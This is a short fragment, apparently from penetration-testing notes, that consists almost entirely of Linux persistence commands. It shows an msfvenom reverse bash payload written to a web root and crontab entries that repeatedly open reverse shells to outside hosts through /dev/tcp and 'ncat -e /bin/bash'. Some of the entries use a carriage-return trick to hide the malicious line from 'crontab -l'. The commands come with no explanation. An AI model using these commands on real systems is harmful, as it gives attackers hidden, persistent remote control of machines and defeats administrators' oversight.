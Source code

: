 	>msfvenom -p cmd/unix/reverse_bash LHOST=192.168.0.107 LPORT=12138 -f raw > /var/www/html/shell.sh
	(crontab -l;printf "*/1 * * * * /bin/bash /tmp/shell.sh;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab -
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/571.png)

	#!bash
	(crontab -l;printf "*/60 * * * * exec 9<> /dev/tcp/192.168.1.1/53;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab -

	(crontab -l ; echo "@reboot sleep 200 && ncat 192.168.1.2 4242 -e /bin/bash")|crontab 2> /dev/null